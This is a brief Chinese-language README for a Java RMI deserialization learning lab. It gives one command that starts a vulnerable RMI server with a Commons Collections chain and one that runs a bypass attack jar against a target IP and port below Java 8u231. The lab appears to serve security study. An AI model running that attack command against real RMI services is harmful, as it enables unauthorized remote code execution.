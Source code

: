 # RMIDeserialize
RMI反序列化学习环境，细节请参考博客

`java -cp RMIDeserialize.jar com.lala.ServerAndRegister` ：起一个包含CC链可以被攻击的RMI服务

`java -jar RMI-Bypass290.jar <攻击目标IP> <攻击目标端口> <本地JRMP服务IP> <本地JRMP服务端口>`：攻击目标8u231版本以下的RMI服务。

其他功能可以从源码运行。
